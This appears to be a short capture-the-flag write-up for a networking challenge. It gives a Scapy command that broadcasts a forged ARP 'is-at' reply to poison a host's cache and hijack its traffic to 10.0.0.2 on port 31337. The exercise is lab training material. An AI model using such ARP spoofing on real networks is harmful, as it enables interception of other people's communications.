 > In this challenge you will hijack traffic from a remote host using ARP.\
> You do not have the capabilities of a NET ADMIN.\
> The remote host at `10.0.0.4` is communicating with the remote host at `10.0.0.2` on port `31337`.

In this level we have to achieve the same goal as level 7. However, we don't have the ability to add addresses as we are not the net admin.

Therefore we will have to create an ARP packet from scratch and send it to the host on `10.0.0.4`.

```python
>>> sendp(Ether(src="76:45:f9:f1:45:de", dst="ff:ff:ff:ff:ff:ff") / ARP(op="is-at", psrc="10.0.0.2", hwsrc="76:45:f9:f1:45:de") / IP(src="10.0.0.3", dst="10.0.0.4"), iface="eth0")
```
